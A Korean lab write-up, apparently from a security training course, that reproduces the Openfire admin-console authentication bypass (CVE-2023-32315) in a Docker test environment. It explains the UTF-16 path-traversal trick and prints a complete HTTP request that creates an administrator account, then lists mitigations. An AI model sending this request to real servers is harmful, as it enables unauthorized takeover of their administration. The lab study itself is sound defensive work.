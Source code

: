 # Openfire Admin Console Authentication Bypass (CVE-2023-32315)

**WHS3** : 6반 이경빈

## 1. 개요
Openfire는 Apache 라이선스 하에 제공되는 오픈 소스 실시간 협업(RTC) 서버입니다. XMPP(Jabber) 프로토콜을 기반으로 한 메시징 서비스를 지원합니다.

그러나 Openfire 4.7.4 및 4.6.7 이전 버전에서는 관리 콘솔(Admin Console) 환경 설정(setup environment)에서 경로 탐색(Path Traversal) 취약점이 발견되었습니다. 이 취약점을 통해 인증되지 않은 사용자가 이미 설정이 완료된 Openfire 서버에서 관리 콘솔의 권한이 필요한 페이지에 접근할 수 있습니다.

References:

- <https://github.com/vulhub/vulhub/tree/master/openfire/CVE-2023-32315>

## 2. 환경 구축

다음 명령어를 통해 Openfire 4.7.4 서버를 실행합니다:

```
docker compose up -d
```

서버가 시작된 후, http://localhost:9090 에 접속하면 로그인 페이지로 리다이렉트되어 인증을 요구받게 됩니다.

![](1.PNG)

## 3. 취약점 설명

과거 Openfire 관리 콘솔에서는 CVE-2008-6508로 알려진 경로 탐색(Path Traversal) 취약점이 존재했습니다. 공격자는 다음과 같은 방식으로 인증을 우회할 수 있었습니다: `/setup/setup-/../../[page].jsp`

이후 보안 업데이트를 통해 일반적인 경로 탐색 공격을 차단했지만, 내장 웹 서버가 비표준 URL 인코딩(UTF-16 인코딩)을 지원하게 되면서 새로운 형태의 우회 방법이 가능해졌습니다.

따라서 공격자는 다음과 같이 UTF-16 인코딩을 활용하여 보호 기능을 우회할 수 있습니다: 
`/setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp` to bypass the path traversal protection again.

## 4. 관리자 계정 생성

다음 요청을 통해 새로운 관리자를 생성할 수 있습니다:

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken


```

![](2.PNG)

## 5. 관리자 로그인 및 접근 권한 확인
생성한 "hackme" 계정으로 로그인하면 정상적인 관리자 권한이 부여된 것을 확인할 수 있습니다.

![](3.PNG)

![](4.PNG)

## 6. 결론 및 대응 방안

본 취약점을 통해 인증되지 않은 공격자가 Openfire 서버의 전체 관리 권한을 획득할 수 있습니다. 이에 따라 심각한 보안 위협이 발생할 수 있으므로, 다음과 같은 대응이 필요합니다:

- Openfire 버전을 4.6.7 또는 4.7.4 이상으로 즉시 업데이트할 것

- 서버에 대한 접근을 방화벽 등으로 제한하고, 외부 노출을 최소화할 것

- 서버에 대한 비인가 접근 및 설정 변경 여부를 점검할 것
